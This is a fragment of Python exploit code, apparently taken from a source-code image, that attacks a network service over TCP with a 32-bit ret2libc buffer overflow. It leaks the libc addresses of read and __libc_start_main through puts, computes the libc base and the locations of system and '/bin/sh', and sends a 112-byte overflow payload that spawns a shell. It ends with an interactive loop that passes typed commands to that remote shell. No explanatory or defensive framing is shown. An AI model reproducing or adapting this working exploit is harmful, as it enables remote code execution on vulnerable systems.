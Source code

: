 ```python
    tcp.send(payload_leak + b"\n")
    read_leak = recv(tcp)[:4]
    hex_read_leak = read_leak[::-1].hex()
    print(f"[+] Found read@libc : 0x{hex_read_leak}")

    # Create payload
    payload_leak = b"".join([
        b"A" * 112,# Buffer overflow
        puts_addr,# Puts fonction
        main_addr,# Return to main
        libc_start_main# Get addr of __libc_start_main@LIBC
    ])

    # Leak __libc_start_main@libc
    tcp.send(payload_leak + b"\n")
    libc_start_main_leak = recv(tcp)[:4]
    hex_libc_start_main_leak = libc_start_main_leak[::-1].hex()
    print(f"[+] Found __libc_start_main@libc : 0x{hex_libc_start_main_leak}")

    # Compute libc start
    libc_start = u32(libc_start_main_leak)[0] - LIBC.symbols["__libc_start_main"]
    print(f"[+] libc base address: {hex(libc_start)}")

    # Get system addr
    system_addr = libc_start + LIBC.symbols["system"]
    print(f"[+] system address : {hex(system_addr)}")

    # Get binsh addr
    binsh_addr = libc_start + next(LIBC.search(b"/bin/sh"))
    print(f"[+] /bin/sh address : {hex(binsh_addr)}")

    # Convert to real addr
    system_addr = p32(system_addr)
    binsh_addr = p32(binsh_addr)

    payload_ret2libc = b"".join([
        b"A" * 112,# Buffer overflow
        system_addr,
        b"ARTH",
        binsh_addr
    ])

    # Send payload in password
    tcp.send(payload_ret2libc + b"\n")

    while True:
        try:
            tcp.send(input(">>> ").encode() + b"\n")
            print(tcp.recv(1024).decode().strip())
        except socket.timeout:
            continue
        except KeyboardInterrupt:
            exit(0)
```
